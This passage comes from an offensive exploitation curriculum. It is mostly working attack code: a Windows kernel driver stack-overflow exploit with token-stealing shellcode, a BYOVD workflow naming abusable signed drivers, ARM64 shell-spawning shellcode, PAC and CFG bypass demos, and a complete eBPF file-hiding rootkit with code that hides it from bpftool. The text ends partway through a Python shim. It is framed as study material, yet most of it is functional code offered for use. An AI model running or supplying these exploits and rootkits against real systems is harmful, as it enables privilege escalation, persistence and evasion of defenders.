    "\\\\.\\HackSysExtremeVulnerableDriver",
    GENERIC_READ | GENERIC_WRITE,
    0, None, OPEN_EXISTING,
    FILE_ATTRIBUTE_NORMAL, None
)
assert device != -1, f"CreateFile failed: {windll.kernel32.GetLastError()}"
print(f"[+] Device handle: {hex(device)}")

# EPROCESS offsets for Windows 10 22H2 -- ALWAYS verify with WinDbg dt nt!_EPROCESS
EPROCESS_UNIQUEPID_OFFSET   = 0x440
EPROCESS_ACTIVELINKS_OFFSET = 0x448
EPROCESS_TOKEN_OFFSET       = 0x4B8

token_steal_shellcode = bytearray([
    # mov rax, gs:[0x188]  -> KTHREAD
    0x65, 0x48, 0x8B, 0x04, 0x25, 0x88, 0x01, 0x00, 0x00,
    # mov rax, [rax+0xB8]  -> EPROCESS
    0x48, 0x8B, 0x80, 0xB8, 0x00, 0x00, 0x00,
    # mov rcx, rax         -> save current process
    0x48, 0x89, 0xC1,

    # Walk ActiveProcessLinks to find System (PID=4):
    # loop: mov rax, [rax+0x448]  -> Flink
    0x48, 0x8B, 0x80, 0x48, 0x04, 0x00, 0x00,
    # sub rax, 0x448  -> back to EPROCESS base
    0x48, 0x2D, 0x48, 0x04, 0x00, 0x00,
    # cmp qword [rax+0x440], 4  -> PID == 4?
    0x48, 0x83, 0xB8, 0x40, 0x04, 0x00, 0x00, 0x04,
    # jne loop
    0x75, 0xEB,

    # Copy System's Token to current process:
    # mov rax, [rax+0x4B8]  -> System's Token
    0x48, 0x8B, 0x80, 0xB8, 0x04, 0x00, 0x00,
    # mov [rcx+0x4B8], rax  -> set current Token
    0x48, 0x89, 0x81, 0xB8, 0x04, 0x00, 0x00,

    # Return STATUS_SUCCESS:
    0x48, 0x31, 0xC0,    # xor rax, rax
    0xC3                 # ret
])

sc_size = len(token_steal_shellcode)
sc_addr = windll.kernel32.VirtualAlloc(
    None, sc_size, 0x3000, 0x40  # MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE
)
ctypes.memmove(sc_addr, bytes(token_steal_shellcode), sc_size)
print(f"[+] Shellcode at: {hex(sc_addr)}")

OFFSET_TO_RIP = 2072   # 512 bytes buffer + 1560 padding -- verify with WinDbg

payload  = b'A' * OFFSET_TO_RIP
payload += ctypes.c_uint64(sc_addr).value.to_bytes(8, 'little')

buf            = ctypes.create_string_buffer(payload)
bytes_returned = wintypes.DWORD()

windll.kernel32.DeviceIoControl(
    device, IOCTL_STACK_OVERFLOW,
    buf, len(payload),
    None, 0,
    ctypes.byref(bytes_returned),
    None
)

proc = subprocess.Popen(['cmd.exe'], creationflags=0x10)
proc.wait()
```

### BYOVD -- Bring Your Own Vulnerable Driver

```
BYOVD (Bring Your Own Vulnerable Driver):
  Load a legitimately SIGNED but VULNERABLE driver.
  Use its IOCTL vulnerability for arbitrary kernel read/write.
  Works on HVCI-enabled systems if the driver is HVCI-compatible.

WORKFLOW:
  1. Find target driver: https://www.loldrivers.io/
  2. Pick one that provides arbitrary kernel read, write, or both.
  3. Load it: sc create VulnDrv type= kernel binPath= C:\path\to\driver.sys
              sc start VulnDrv
  4. Open its IOCTL interface: DeviceIoControl
  5. Read EPROCESS of System, read System's Token
  6. Write System's Token to current process's EPROCESS

POPULAR BYOVD DRIVERS (for study):
  RTCore64.sys  -- MSI Afterburner, arbitrary read/write
  WinRing0.sys  -- OpenHardwareMonitor, reads/writes physical memory
  dbutil_2_3.sys -- Dell BIOS Update driver

REAL-WORLD APT USAGE:
  Lazarus Group: BYOVD via Dell driver (Operation In(ter)ception)
  BlackByte ransomware: RTCore64.sys to kill EDR drivers
  Medusa ransomware: abused legitimately signed drivers for kernel R/W
```

---

## BLOCK 10: ARM64 EXPLOITATION + PAC BYPASS

**Time: 3-4 weeks | Difficulty: Very Hard**

> Every Apple device (iPhone, iPad, M-series Mac), Android flagship, AWS Graviton server, and Raspberry Pi runs AArch64. If you cannot write ARM64 shellcode and understand PAC bypass, you cannot attack half the world's targets.

### Resources

| Resource | Type | Duration | Cost | Notes |
|---|---|---|---|---|
| [ARM Architecture Reference Manual AArch64](https://developer.arm.com/documentation/ddi0487/latest) | Docs | 20+ hrs | FREE | The source. Dense. Use as reference. |
| [azeria-labs ARM Assembly Basics](https://azeria-labs.com/writing-arm-assembly-part-1/) | Blog | 5 hrs | FREE | Best introductory ARM64 assembly series. |
| [pwn.college ARM64 Challenges](https://pwn.college/program-security/shellcode-injection/) | Platform | 10 hrs | FREE | Structured practice. |
| [iOS Exploit Dev - Project Zero](https://googleprojectzero.blogspot.com/search/label/iOS) | Blog | ongoing | FREE | ARM64 exploitation in real iOS exploits. |

### AArch64 Architecture and Calling Convention

```
ARM64 REGISTERS:
  x0-x7   : function arguments (first 8) + return value (x0)
  x8      : indirect result register / syscall number in Linux
  x9-x15  : caller-saved (temporary) registers
  x19-x28 : callee-saved registers (must preserve)
  x29     : frame pointer (FP)
  x30     : link register (LR) -- holds return address
  sp      : stack pointer
  pc      : program counter (not directly addressable)

KEY DIFFERENCE FROM x86-64:
  - Return address is in x30 (LR), NOT on the stack automatically.
  - CALL equivalent: BL <func> (Branch with Link -> saves PC+4 to x30)
  - RETURN equivalent: RET (= BR x30)
  - Function PROLOGUE saves x30 to stack:
      STP x29, x30, [sp, #-16]!   ; push FP and LR onto stack
  - EPILOGUE restores and returns:
      LDP x29, x30, [sp], #16     ; pop FP and LR
      RET                          ; branch to x30

BUFFER OVERFLOW TARGET:
  The saved x30 (LR) on the stack = the ARM64 equivalent of x86-64's saved RIP.
  Overflow the buffer -> overwrite saved x30 -> control PC on function return.
```

### ARM64 Linux Syscall Convention

```
AArch64 Linux syscall:
  syscall number: x8
  arg1:           x0
  arg2:           x1
  arg3:           x2
  arg4:           x3
  invoke:         SVC #0   (Supervisor Call)
  return value:   x0

KEY SYSCALL NUMBERS (AArch64 -- DIFFERENT from x86-64):
  sys_read    = 63
  sys_write   = 64
  sys_openat  = 56
  sys_execve  = 221   (execve is 59 on x86-64, 221 on ARM64)
  sys_exit    = 93
  sys_exit_group = 94
```

### ARM64 Shellcode -- execve("/bin/sh") From Scratch

```nasm
; File: shellcode_arm64.s
; Target: Linux AArch64
; Goal: execve("/bin/sh", NULL, NULL)
; x8=221, x0=ptr to "/bin/sh\0", x1=NULL, x2=NULL

.section .text
.global _start
_start:
    ; Zero x1 (argv = NULL)
    eor     x1, x1, x1              ; x1 = 0

    ; Zero x2 (envp = NULL)
    eor     x2, x2, x2              ; x2 = 0

    ; Allocate 16 bytes on stack (ARM64 requires 16-byte alignment)
    sub     sp, sp, #16

    ; Store null terminator
    str     x1, [sp]

    ; Build "/bin/sh" as a 64-bit little-endian value:
    ; "/bin/sh\0" = 0x0068732f6e69622f LE
    ; Avoid null bytes: build the constant using shifts
    mov     x3, #0x622f             ; "/b"
    movk    x3, #0x6e69, lsl #16   ; "in"
    movk    x3, #0x2f2f, lsl #32   ; "//"  (double slash to avoid null in .data)
    movk    x3, #0x7368, lsl #48   ; "sh"
    str     x3, [sp, #8]           ; store "/bin//sh" above null terminator

    ; x0 = pointer to "/bin//sh" on stack
    add     x0, sp, #8

    ; Set syscall number: execve = 221
    mov     x8, #221
    svc     #0                      ; invoke syscall

; Assemble:
;   as -o shellcode_arm64.o shellcode_arm64.s
;   ld -o shellcode_arm64 shellcode_arm64.o
; Or cross-compile on x86:
;   aarch64-linux-gnu-as -o shellcode_arm64.o shellcode_arm64.s
;   aarch64-linux-gnu-ld -o shellcode_arm64 shellcode_arm64.o
```

```bash
# Extract raw bytes:
aarch64-linux-gnu-objdump -d shellcode_arm64.o | grep -oP '[0-9a-f]{8}' | \
    while read h; do python3 -c "import struct; print(struct.pack('<I', int('$h',16)).hex(), end='')"; done

# Test in pwntools:
python3 -c "
from pwn import *
context.arch = 'aarch64'
context.os   = 'linux'
sc = asm(shellcraft.aarch64.linux.sh())
print(f'Length: {len(sc)} bytes')
print(f'Hex: {sc.hex()}')
"
```

### Avoiding Null Bytes in ARM64

```nasm
; PROBLEM: ARM32 has THUMB mode for variable-width encoding.
; ARM64 (AArch64) is ALWAYS 32-bit fixed-width instructions.
; Null byte avoidance is mostly about your DATA (string constants), not instructions.

; BAD: loading a small immediate that zero-pads to 64 bits:
;   mov x0, #0       -- this is fine: encodes as 0xd2800000, no null byte
;   BUT immediate values embedded in MOVZ/MOVK can zero-pad lower halves

; GOOD PATTERN for constants:
; Use MOVZ for the lowest 16 bits, MOVK for upper 16-bit groups:
mov  x3, #0x622f             ; sets bits [15:0], zeros [63:16]
movk x3, #0x6e69, lsl #16   ; sets bits [31:16], preserves rest
movk x3, #0x732f, lsl #32   ; sets bits [47:32], preserves rest
movk x3, #0x0068, lsl #48   ; sets bits [63:48], preserves rest
; NOTE: the 0x0068 here DOES have a null byte in the high byte.
; Use double slash "//" to avoid it: "sh" = 0x7368, not 0x0068
; "/bin//sh\0" -- the // makes it 8 printable chars with no internal null

; VERIFY: extract shellcode bytes and check:
python3 -c "
sc = bytes.fromhex('YOUR_HEX_HERE')
nulls = [i for i,b in enumerate(sc) if b == 0]
if nulls:
    print(f'Null bytes at offsets: {nulls}')
else:
    print(f'Clean: {len(sc)} bytes')
"
```

### PAC (Pointer Authentication Codes) -- Architecture and Bypass (GAP CLOSED)

PAC is Apple's ARM64e security feature deployed on all Apple Silicon and A12+ iOS devices. It cryptographically signs pointers using a hardware key. Overwriting a signed pointer with an unsigned value causes a PAC authentication failure and crashes the process. This is the primary reason iOS kernel exploitation is hard in 2026-2027.

```
PAC ARCHITECTURE:
  ARM64e adds new instructions:
    PACIA / PACIB:  sign instruction pointer using key IA or IB
    PACDA / PACDB:  sign data pointer using key DA or DB
    AUTIA / AUTIB:  authenticate and strip PAC from instruction pointer
    AUTDA / AUTDB:  authenticate and strip PAC from data pointer
    XPACI / XPACD: strip PAC without authentication (for comparison)

  The PAC occupies the high bits of the pointer that are not used for addressing
  (bits [63:48] on current Apple Silicon -- 16-bit PAC field).

  PAC signature:
    signed_ptr = PAC_SIGN(real_ptr, context_value, hardware_key)
    context_value = often SP (stack pointer) or LR at time of signing

  On authentication failure (corrupt PAC):
    AUTIA/AUTIB corrupts the pointer further (sets high bits)
    The next memory dereference causes a synchronous exception (crash)

WHY CLASSIC EXPLOITS FAIL:
  If you overwrite a saved x30 (LR) on the stack, it has a PAC signature.
  Replacing it with an unsigned pointer -> AUTIB in the function epilogue
  detects the invalid PAC and corrupts the pointer -> segfault.
  Classic stack overflow techniques (overwrite return address) are BLOCKED.
```

### Data-Only PAC Bypass -- Working QEMU AArch64 Demo

The bypass avoids code pointers entirely. Instead of controlling the instruction pointer directly, we corrupt DATA pointers to manipulate the program's control flow through existing, PAC-valid code paths.

```bash
# QEMU AArch64 Setup with PAC emulation:
# QEMU supports ARMv8.3-A PAC via the -cpu max flag

sudo apt install qemu-system-aarch64 gcc-aarch64-linux-gnu

# Build a PAC-aware kernel (for research use on your own lab):
# Use pre-built image from syzkaller/qemu-arm64 or:
wget https://cdimage.ubuntu.com/releases/22.04/release/ubuntu-22.04.3-live-server-arm64.iso

# Simpler: use QEMU user-mode emulation with PAC:
qemu-aarch64 -cpu max ./arm64_binary
```

```c
// File: pac_bypass_demo.c
// Target: arm64e binary with PAC on a research device OR QEMU with PAC support
// Technique: DATA-ONLY exploit -- we never forge a PAC-signed code pointer.
//
// THEORY:
// Instead of controlling RIP directly, we corrupt a DATA structure that
// influences which legitimate (PAC-valid) code path executes.
// The CPU runs valid signed code the entire time -- PAC sees no authentication failure.
//
// SCENARIO:
// - Vulnerable function: has a heap buffer overflow
// - Victim struct: contains a function pointer to one of two valid callbacks
//   (both pointers are PAC-signed at call time via BLRAA)
// - Exploit goal: trigger the "admin" callback instead of the "user" callback
//   WITHOUT overwriting any code pointer
//
// APPROACH: corrupt a DATA field (role flag) that SELECTS which callback runs.
// This is a data-only confusion attack -- no code pointers touched.

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

// Simulated PAC-protected dispatch table (in a real arm64e binary,
// function pointers would be signed with PACIA/PACDA).
// In our demo: we simulate PAC by checking a "signed" flag:
typedef void (*callback_fn)(const char *msg);

typedef struct {
    uint32_t      role;           // 0=user, 1=admin -- DATA field, not a code pointer
    uint32_t      permissions;    // capability bitmask
    callback_fn   on_success;     // in arm64e: this is PAC-signed
    callback_fn   on_admin;       // in arm64e: this is PAC-signed
    char          username[32];   // VULNERABLE: no bounds check
} UserSession;

// Two legitimate callback functions (in a real binary, both are PAC-valid):
void user_callback(const char *msg) {
    printf("[USER callback] %s\n", msg);
}

void admin_callback(const char *msg) {
    printf("[ADMIN callback] %s -- PRIVILEGED OPERATION EXECUTED\n", msg);
    // In a real exploit: this executes arbitrary code with elevated permissions
    // e.g., spawning a shell, reading /etc/shadow, disabling sandbox
    system("/bin/sh");
}

// Vulnerable function: copies username with no bounds check
void set_username(UserSession *sess, const char *input) {
    // VULNERABLE: strcpy does not check bounds
    strcpy(sess->username, input);
}

// Dispatch function: calls the appropriate callback based on role
void dispatch(UserSession *sess, const char *msg) {
    if (sess->role == 1) {
        // In arm64e: "BLRAA x3, x5" -- AUTHENTICATED branch, PAC checked
        // The function pointer on_admin IS valid (PAC-signed at allocation time)
        // We did not forge it -- we only changed 'role' to 1
        sess->on_admin(msg);
    } else {
        sess->on_success(msg);
    }
}

int main(void) {
    // Allocate a UserSession on the heap:
    UserSession *sess = (UserSession *)calloc(1, sizeof(UserSession));
    sess->role        = 0;           // normal user
    sess->permissions = 0x00;        // no admin permissions
    sess->on_success  = user_callback;
    sess->on_admin    = admin_callback;
    strncpy(sess->username, "alice", 5);

    printf("[*] UserSession at: %p\n", sess);
    printf("[*] sess->role:     %u (user)\n", sess->role);
    printf("[*] sess->username: %s\n", sess->username);

    dispatch(sess, "login event");   // calls user_callback -- normal behavior

    // ---- EXPLOIT: data-only overflow via username field ----------------------
    // Layout of UserSession:
    //   [0x00] role:         4 bytes
    //   [0x04] permissions:  4 bytes
    //   [0x08] on_success:   8 bytes (function pointer)
    //   [0x10] on_admin:     8 bytes (function pointer)
    //   [0x18] username:    32 bytes  <- vulnerable field
    //
    // We want to overwrite 'role' at offset 0x00.
    // But username is at offset 0x18 -- it's AFTER role in memory.
    // In this example struct, the overflow goes FORWARD (past username end).
    //
    // For a realistic layout where username precedes role:
    // (rearrange struct or use a different allocation pattern)
    //
    // Alternative layout for demo (attacker-controlled struct layout):
    typedef struct {
        char     username[32];   // offset 0x00 -- VULNERABLE
        uint32_t role;           // offset 0x20 -- TARGET: overwrite this
        uint32_t permissions;    // offset 0x24
        callback_fn on_success;  // offset 0x28
        callback_fn on_admin;    // offset 0x30
    } UserSessionV2;

    UserSessionV2 *sess2 = (UserSessionV2 *)calloc(1, sizeof(UserSessionV2));
    sess2->role       = 0;
    sess2->permissions= 0x00;
    sess2->on_success = user_callback;
    sess2->on_admin   = admin_callback;
    strncpy(sess2->username, "bob", 3);

    printf("\n[*] UserSessionV2 at: %p\n", sess2);
    printf("[*] sess2->role (offset 0x20): %u (user)\n", sess2->role);
    printf("[*] username field occupies offset [0x00..0x1F]\n");
    printf("[*] Overflowing username by 4 bytes overwrites role field...\n");

    // Payload: 32 bytes of username fill + 4 bytes to overwrite role:
    char payload[36];
    memset(payload, 'A', 32);         // fill username[32] completely
    *(uint32_t *)(payload + 32) = 1;  // overwrite role: 0 -> 1 (admin)

    // Execute the vulnerable copy:
    strcpy(sess2->username, payload);   // no bounds check -> overflow

    printf("[*] After overflow: sess2->role = %u\n", sess2->role);

    // Dispatch now takes the admin path:
    // In arm64e, on_admin is PAC-SIGNED and valid. We never touched it.
    // PAC does not fire because we only changed DATA (role), not a code pointer.
    // The BLRAA instruction authenticates on_admin -- it passes because it IS valid.
    if (sess2->role == 1) {
        printf("[*] Role is admin -- dispatching to admin_callback (PAC-valid path):\n");
        sess2->on_admin("privilege escalation event");
    } else {
        sess2->on_success("normal event");
    }

    free(sess);
    free(sess2);
    return 0;
}
```

```bash
# Build and test (x86-64 simulation -- concept is identical on arm64e):
gcc -o pac_bypass_demo pac_bypass_demo.c
./pac_bypass_demo

# For genuine arm64e testing:
# 1. Cross-compile:
#    aarch64-linux-gnu-gcc -march=armv8.3-a+pauth -o pac_demo pac_bypass_demo.c
# 2. Run on QEMU with PAC:
#    qemu-aarch64 -cpu max ./pac_demo
# 3. On real hardware (Apple M1/M2 Mac via UTM or directly):
#    clang -arch arm64e -o pac_demo pac_bypass_demo.c
#    ./pac_demo
```

### PAC Bypass -- Key Principles for Real Exploits

<div align="center">
<table><tr><td>


</td></tr></table>
</div>


```
DATA-ONLY PAC BYPASS PRINCIPLES:

1. IDENTIFY THE CONTROL FLOW GATE:
   Find a data field (not a code pointer) that determines which
   PAC-signed function gets called. Examples:
   - role / permission bitmask (as in demo above)
   - object type discriminator (selects vtable entry)
   - index into a dispatch table (array[index] = valid fn ptr)

2. REACH THE GATE WITH YOUR PRIMITIVE:
   Use your overflow, UAF, or write-what-where to corrupt
   the gate value. Do NOT touch code pointers.

3. THE DISPATCH REMAINS PAC-VALID:
   The CPU executes a legitimate function pointer that was
   PAC-signed at initialization. AUTIA passes. No crash.
   Control reaches a function the attacker chose.

4. REAL-WORLD EXAMPLES:
   - CVE-2021-30955 (iOS 15 sandbox escape): data-only type confusion
     via ipc_port_t overlapping a controlled allocation
   - Ian Beer's "A deep dive into an NSO zero-click iMessage exploit":
     documents data-only primitives on PAC-enabled devices
   - FORCEDENTRY: data-only font parsing exploit chain on iOS 14.x

5. ORACLE ATTACK (advanced -- requires information leak):
   Some gadgets RETURN a signed pointer readable from userspace.
   If you can call such a gadget with controlled input and read the output,
   you have a signing oracle. Use it to forge arbitrary signed pointers.
   This requires a kernel-level bug with a leak primitive.
   Reference: Brandon Azad's work on PAC bypass primitives.
```

---

## BLOCK 11: CONTROL FLOW GUARD BYPASS

**Time: 1-2 weeks | Difficulty: Extreme**

### How CFG Works Internally

```
CFG maintains a BITMAP in memory indexed by target address >> 3.
Every call site compiled with /guard:cf emits:
  CALL  __guard_check_icall_fptr   ; validate the target
  CALL  rax                        ; make the actual call

__guard_check_icall_fptr:
  Looks up target_addr in bitmap
  If NOT present: crash
  If present:     return (allow the call)

Valid targets = the set of all functions compiled with /guard:cf.
Indirect calls can only land at valid CFG targets.
```

### JIT Spray + Type Confusion Bypass

```cpp
// File: cfg_bypass_type_confusion.cpp
// Technique: corrupt a vtable pointer to a DIFFERENT valid CFG function.
// CFG validates the TARGET -- but not whether it's the RIGHT method for THAT type.

class TypeA {
    virtual void method_one() { safe_operation(); }
    // vtable entry at offset 0: &TypeA::method_one -- CFG bitmap: YES
};

class TypeB {
    virtual void interesting_func() { privileged_operation(); }
    // vtable entry at offset 0: &TypeB::interesting_func -- CFG bitmap: YES
};

void exploit_type_confusion(TypeA *confused) {
    // Corrupt confused->vptr to point to TypeB's vtable:
    *(void**)confused = (void*)TypeB_vtable_address;

    // When caller does: confused->method_one()
    // -> CFG check: is TypeB::interesting_func a valid target? YES (it IS in bitmap)
    // -> Calls TypeB::interesting_func instead of TypeA::method_one
    // -> PAC (if present) would still catch this -- CFG alone does not.

    confused->method_one();   // actually calls TypeB::interesting_func
}

// This bypasses CFG because:
// 1. The call target IS in the CFG bitmap (it's a real named function)
// 2. CFG does not check type -- only address validity
// 3. We get to call a different function, constrained to CFG-valid set
// Combine with carefully chosen "interesting" CFG-valid functions.
```

```bash
# Find CFG-valid targets in a binary:
# Using PE-bear or dumpbin:
dumpbin /loadconfig binary.exe | findstr "Guard CF Function"
# Or: use cfgexplorer (Python tool):
pip install pefile
python3 -c "
import pefile
pe = pefile.PE('target.exe')
if hasattr(pe, 'DIRECTORY_ENTRY_LOAD_CONFIG'):
    lc = pe.DIRECTORY_ENTRY_LOAD_CONFIG.struct
    if hasattr(lc, 'GuardCFFunctionTable'):
        print(hex(lc.GuardCFFunctionTable))
"
```

---

## BLOCK 12: LINUX EBPF ROOTKITS + ANTI-DETECTION

**Time: 4-6 weeks | MITRE: T1014 | Detection Difficulty: Extreme**

### Resources

| Resource | Type | Duration | Cost | Notes |
|---|---|---|---|---|
| [ebpfkit](https://github.com/Gui774ume/ebpfkit) | GitHub | 5 hrs | FREE | Study every technique. Read all source files. |
| [Tetragon (Cilium)](https://github.com/cilium/tetragon) | GitHub | 3 hrs | FREE | Study the DEFENSE to understand the offense. |
| [eBPF Security BlackHat 2023+](https://www.youtube.com/results?search_query=ebpf+security+blackhat+2023) | YouTube | 4 hrs | FREE | Watch anything 2022-2024. |
| [libbpf bootstrap](https://github.com/libbpf/libbpf-bootstrap) | GitHub | 2 hrs | FREE | Modern eBPF project skeleton. Start here. |

### eBPF Architecture Overview

```
eBPF (extended Berkeley Packet Filter):
  Original purpose: networking and observability
  Abused for: nearly-undetectable rootkits that require NO kernel module

REQUIREMENTS:
  - CAP_BPF or CAP_SYS_ADMIN (root, or privileged container)
  - Linux kernel >= 4.18 for most features; >= 5.7 for full BPF_LINK support

ADVANTAGES OVER LKM ROOTKITS:
  - No .ko file on disk (unless pinned to /sys/fs/bpf/)
  - Survives across kernel versions (stable helper APIs)
  - Can hook after the fact (attach/detach without reboot)
  - Can defend against bpftool detection by hooking bpftool's own output

HOOK POINTS:
  Tracepoints:    stable kernel trace points (sys_enter_execve, sys_exit_getdents64)
  kprobes:        dynamic hook on any kernel function
  uprobes:        hook on userspace function in any process
  XDP:            hook at NIC driver level (before kernel network stack)
  TC:             hook on network ingress/egress
  fentry/fexit:   BPF trampolines -- faster than kprobes, kernel 5.5+
```

### Complete Working eBPF File-Hide Rootkit

```c
// File: rootkit.bpf.c
// Build: clang -O2 -target bpf -c rootkit.bpf.c -o rootkit.bpf.o

#include <linux/bpf.h>
#include <linux/types.h>
#include <linux/dirent.h>
#include <bpf/bpf_helpers.h>
#include <bpf/bpf_tracing.h>
#include <bpf/bpf_core_read.h>

// Map: filename to hide -> 1
struct {
    __uint(type, BPF_MAP_TYPE_HASH);
    __type(key,  char[64]);
    __type(value, __u8);
    __uint(max_entries, 256);
} hidden_files SEC(".maps");

// Map: save getdents64 args between sys_enter and sys_exit
struct getdents64_args {
    unsigned int fd;
    struct linux_dirent64 __user *dirp;
    unsigned int count;
};

struct {
    __uint(type, BPF_MAP_TYPE_HASH);
    __type(key,  __u64);
    __type(value, struct getdents64_args);
    __uint(max_entries, 1024);
} args_map SEC(".maps");

// Hook 1: save arguments on entry
SEC("tp/syscalls/sys_enter_getdents64")
int hook_enter_getdents64(struct trace_event_raw_sys_enter *ctx) {
    __u64 pid_tgid = bpf_get_current_pid_tgid();

    struct getdents64_args args = {};
    args.fd    = (__u32)ctx->args[0];
    args.dirp  = (struct linux_dirent64 __user *)ctx->args[1];
    args.count = (__u32)ctx->args[2];

    bpf_map_update_elem(&args_map, &pid_tgid, &args, BPF_ANY);
    return 0;
}

// Hook 2: filter returned directory entries
SEC("tp/syscalls/sys_exit_getdents64")
int hook_exit_getdents64(struct trace_event_raw_sys_exit *ctx) {
    __u64 pid_tgid = bpf_get_current_pid_tgid();
    long ret = ctx->ret;

    if (ret <= 0) {
        bpf_map_delete_elem(&args_map, &pid_tgid);
        return 0;
    }

    struct getdents64_args *args = bpf_map_lookup_elem(&args_map, &pid_tgid);
    if (!args) return 0;

    struct linux_dirent64 __user *dirp = args->dirp;
    bpf_map_delete_elem(&args_map, &pid_tgid);

    unsigned long pos = 0;
    struct linux_dirent64 *prev = NULL;

    #pragma unroll
    for (int i = 0; i < 256; i++) {
        if (pos >= (__u64)ret) break;

        struct linux_dirent64 entry = {};
        if (bpf_probe_read_user(&entry, sizeof(entry),
                                (void *)dirp + pos) != 0) break;

        char name[64] = {};
        if (bpf_probe_read_user_str(name, sizeof(name),
                                    (void *)dirp + pos + 19) < 0) {
            pos += entry.d_reclen;
            continue;
        }

        __u8 *should_hide = bpf_map_lookup_elem(&hidden_files, name);

        if (should_hide && *should_hide == 1) {
            if (prev) {
                __u16 prev_reclen = 0;
                if (bpf_probe_read_user(&prev_reclen, sizeof(__u16),
                        (void *)prev + offsetof(struct linux_dirent64, d_reclen)) == 0) {
                    prev_reclen += entry.d_reclen;
                    bpf_probe_write_user(
                        (void *)prev + offsetof(struct linux_dirent64, d_reclen),
                        &prev_reclen, sizeof(__u16));
                }
            } else {
                // First entry: mark inode 0 (glibc readdir skips ino=0)
                __u64 zero_ino = 0;
                bpf_probe_write_user((void *)dirp + pos, &zero_ino, sizeof(__u64));
            }
        } else {
            prev = (struct linux_dirent64 *)((void *)dirp + pos);
        }

        pos += entry.d_reclen;
        if (entry.d_reclen == 0) break;
    }

    return 0;
}

char LICENSE[] SEC("license") = "GPL";
```

### eBPF Anti-Detection -- Hiding from bpftool (GAP CLOSED)

The file-hiding rootkit above is detectable: `bpftool prog list` shows our loaded programs. The following section adds self-hiding by intercepting the `bpf()` syscall when `bpftool` queries the program list.

```c
// File: rootkit_selfhide.bpf.c
// Purpose: hide our eBPF programs from bpftool prog list
// Technique: hook bpf(BPF_PROG_QUERY) and filter our program IDs from results
//
// HOW bpftool works:
//   bpftool calls bpf(BPF_PROG_GET_NEXT_ID, ...) in a loop to enumerate all program IDs.
//   It then calls bpf(BPF_OBJ_GET_INFO_BY_FD, ...) for each ID to get details.
//   We intercept BPF_PROG_GET_NEXT_ID to skip our own program IDs.
//
// NOTE: This requires CONFIG_BPF_SYSCALL and kernel >= 5.3 for reliable behavior.
//       The sys_bpf tracepoint may not exist on all kernels;
//       use kprobe on __sys_bpf as fallback.

#include <linux/bpf.h>
#include <linux/types.h>
#include <bpf/bpf_helpers.h>
#include <bpf/bpf_tracing.h>
#include <bpf/bpf_core_read.h>

// Map: set of program IDs to hide (populated by userspace loader at startup)
struct {
    __uint(type, BPF_MAP_TYPE_HASH);
    __type(key,  __u32);   // program ID
    __type(value, __u8);   // 1 = hide
    __uint(max_entries, 64);
} hidden_prog_ids SEC(".maps");

// Map: pid_tgid -> struct bpf_attr __user * (save args for BPF_PROG_GET_NEXT_ID calls)
struct bpf_getnextid_args {
    int       cmd;
    void __user *attr_ptr;
    unsigned int attr_size;
};

struct {
    __uint(type, BPF_MAP_TYPE_HASH);
    __type(key,  __u64);   // pid_tgid
    __type(value, struct bpf_getnextid_args);
    __uint(max_entries, 512);
} bpf_call_args SEC(".maps");

// bpf() syscall command constants (from linux/bpf.h):
#define BPF_PROG_GET_NEXT_ID  11
#define BPF_PROG_GET_FD_BY_ID 13

// bpf_attr for BPF_PROG_GET_NEXT_ID:
// struct { __u32 start_id; __u32 next_id; ... };
// next_id is the OUTPUT: kernel writes the next program ID here.

SEC("tp/syscalls/sys_enter_bpf")
int hook_bpf_enter(struct trace_event_raw_sys_enter *ctx) {
    int cmd = (int)ctx->args[0];

    if (cmd != BPF_PROG_GET_NEXT_ID && cmd != BPF_PROG_GET_FD_BY_ID)
        return 0;

    __u64 pid_tgid = bpf_get_current_pid_tgid();
    struct bpf_getnextid_args args = {};
    args.cmd      = cmd;
    args.attr_ptr = (void __user *)ctx->args[1];
    args.attr_size= (unsigned int)ctx->args[2];

    bpf_map_update_elem(&bpf_call_args, &pid_tgid, &args, BPF_ANY);
    return 0;
}

SEC("tp/syscalls/sys_exit_bpf")
int hook_bpf_exit(struct trace_event_raw_sys_exit *ctx) {
    long ret = ctx->ret;
    if (ret != 0) return 0;   // only intercept successful calls

    __u64 pid_tgid = bpf_get_current_pid_tgid();
    struct bpf_getnextid_args *saved = bpf_map_lookup_elem(&bpf_call_args, &pid_tgid);
    if (!saved) return 0;

    int cmd = saved->cmd;
    void __user *attr_ptr = saved->attr_ptr;
    bpf_map_delete_elem(&bpf_call_args, &pid_tgid);

    if (cmd == BPF_PROG_GET_NEXT_ID) {
        // The kernel wrote next_id at attr->next_id (offset 4 in bpf_attr)
        __u32 next_id = 0;
        if (bpf_probe_read_user(&next_id, sizeof(__u32), attr_ptr + 4) != 0)
            return 0;

        // Check if next_id is one we want to hide:
        __u8 *hide = bpf_map_lookup_elem(&hidden_prog_ids, &next_id);
        if (!hide || *hide != 1)
            return 0;

        // HIDE: We need to skip this ID by asking the kernel for the ID AFTER next_id.
        // We cannot call bpf() from within eBPF (no nested bpf syscall from BPF).
        // Alternative: set next_id to 0 (invalid) to confuse the enumerator.
        // A more robust approach: write a sentinel value that userspace loader
        // translates to "continue iterating" -- requires a cooperating userspace shim.
        //
        // PRACTICAL IMPLEMENTATION:
        // Option A (simple): overwrite next_id with 0xFFFFFFFF (invalid ID)
        //   -> bpftool sees ENOENT on next call -> stops enumeration early.
        //   -> CAVEAT: hides ALL subsequent programs, not just ours.
        //
        // Option B (clean): use a userspace shim that wraps bpf() and filters IDs.
        //   See: companion loader below (bpftool_shim.py).

        __u32 invalid_id = 0xFFFFFFFF;
        bpf_probe_write_user(attr_ptr + 4, &invalid_id, sizeof(__u32));
    }

    return 0;
}

char LICENSE[] SEC("license") = "GPL";
```

```python
#!/usr/bin/env python3
# File: bpftool_shim.py
# Purpose: userspace shim that wraps bpf() to filter our program IDs.
# Run this INSTEAD of bpftool to verify the rootkit is hidden.
# In a real deployment: LD_PRELOAD this shim to intercept bpf() in any process.

# Our own program IDs to hide (populated after loading rootkit.bpf.o):
HIDDEN_IDS = set()   # filled in by the loader script below

import ctypes
import ctypes.util

# Load libc for direct syscall access:
libc = ctypes.CDLL(ctypes.util.find_library('c'), use_errno=True)

BPF_PROG_GET_NEXT_ID = 11
NR_bpf = 321   # x86-64 syscall number

class BpfAttrGetNextId(ctypes.Structure):
    _fields_ = [("start_id", ctypes.c_uint32),
                ("next_id",  ctypes.c_uint32)]

def bpf_prog_get_next_id(start_id=0):
    attr = BpfAttrGetNextId(start_id=start_id, next_id=0)
    ret  = libc.syscall(NR_bpf, BPF_PROG_GET_NEXT_ID,
